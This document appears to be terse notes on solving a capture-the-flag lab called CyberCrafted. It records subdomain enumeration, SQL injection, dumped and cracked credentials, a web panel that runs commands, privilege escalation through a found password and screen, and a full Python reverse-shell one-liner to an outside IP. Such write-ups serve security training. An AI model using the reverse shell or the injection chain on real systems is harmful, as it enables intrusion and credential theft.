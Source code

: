 start with nmap

80
22


***

http port 80

http://cybercrafted.thm/

comment on index page 

`<!-- A Note to the developers: Just finished up adding other subdomains, now you can work on them! -->`

site uses php.

subdomain:

```
www                     [Status: 200, Size: 832, Words: 236, Lines: 35]
admin                   [Status: 200, Size: 937, Words: 218, Lines: 31]
store                   [Status: 403, Size: 287, Words: 20, Lines: 10]
www.admin               [Status: 200, Size: 937, Words: 218, Lines: 31]
www.store               [Status: 403, Size: 291, Words: 20, Lines: 10]


```

admin -->loginpage --> sqlinjection

***

ffuf the store subdomain.

/search.php --> sqlinjection

```
available databases [5]:                                                                                              
[*] information_schema                                     
[*] mysql                                                  
[*]performance_schema                                                    [*] sys                                                                                                               
[*] webapp   

```

from webapp database:

xXUltimateCreeperXx : 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01 : diamond123456789
xxultimatecreeperxx
log in using above creds to admin.cybercrafted.thm

got panel.php , we can run commands. 

get xXUltimateCreeperXx id_rsa

id_rsa is encrypted. using ssh2john cracked id_rsa password.

`creepin2006`


python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.9.112",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

***

privs 


cronjob :

 *     1 * *   cybercrafted tar -zcf /opt/minecraft/WorldBackup/world.tgz /opt/minecraft/cybercrafte
d/world/*


backup file /etc/apt/sources.list.curtin.old

/var/www/tld/secret 

 /usr/bin/SCREEN -DmS cybercrafted /usr/bin/java -Xmx2
56m -jar craftbukkit-1.7.2-server.jar nogui                         


/usr/bin/java -Xmx256m -jar craftbukkit-1.7.2-server.
jar nogui                                                         



* *     1 * *   cybercrafted tar -zcf /opt/minecraft/WorldBackup/world.tgz /opt/minecraft/cybercrafted/world/*


/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat log.txt

found cybercrafted password : JavaEdition>Bedrock



sudo -l

https://linuxize.com/post/how-to-use-linux-screen/

ctrl+a+c get root